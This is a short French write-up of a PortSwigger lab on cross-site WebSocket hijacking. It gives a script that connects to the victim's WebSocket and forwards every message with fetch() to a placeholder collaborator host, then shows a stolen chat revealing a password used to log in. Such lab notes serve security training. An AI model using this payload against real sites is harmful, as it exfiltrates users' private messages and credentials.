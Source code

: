 # Lab

https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking/lab

## Payload

Créer une page qui va se connecter au WebSocket du lab et envoyer le payload :

```html	
<script>
    var ws = new WebSocket('wss://your-websocket-url');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://your-collaborator-url', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```

Esnuite dans Burp Collaborator, on peut voir que le payload a été envoyé :

```
{"user":"You","content":"I forgot my password"}
{"user":"Hal Pline","content":"No problem carlos, it's vq34x7gxdm5y2bujcclp"}
```

Puis on peut se connecter avec le mot de passe récupéré.